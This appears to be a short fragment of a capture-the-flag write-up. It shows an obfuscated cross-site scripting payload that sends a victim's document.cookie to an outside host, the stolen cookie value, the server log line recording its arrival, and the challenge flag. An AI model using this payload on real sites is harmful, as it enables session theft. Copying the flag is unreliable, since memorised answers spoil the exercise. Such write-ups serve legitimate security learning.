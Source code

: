 <script>var i = new Image(); i['src']='http:' + String['fromCharCode'](47,47) + '92f' + String.['fromCharCode'](46) + 'co/shit?a=' + document['cookie'];</script>
green-mountains=eyJub25jZSI6ImI1YWNhMDk2NTI1MDExY2IiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vcGFyYWdyYXBoLiokIiwiZXhwaXJ5IjoxNDYyMDAwNTMzfQ==|1462000530|5803e1a8b5c064df37c43c8736f4b7275285892b

146.148.94.130 - - [30/Apr/2016:07:15:50 +0000] "GET /shit?a=green-mountains=eyJub25jZSI6ImI1YWNhMDk2NTI1MDExY2IiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vcGFyYWdyYXBoLiokIiwiZXhwaXJ5IjoxNDYyMDAwNTMzfQ==|1462000530|5803e1a8b5c064df37c43c8736f4b7275285892b HTTP/1.1" 404 489 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/48.0.2564.97 Safari/537.36"
part 3: CTF{intents_is_the_INTENTed_way_to_solve_some_an_android_level}

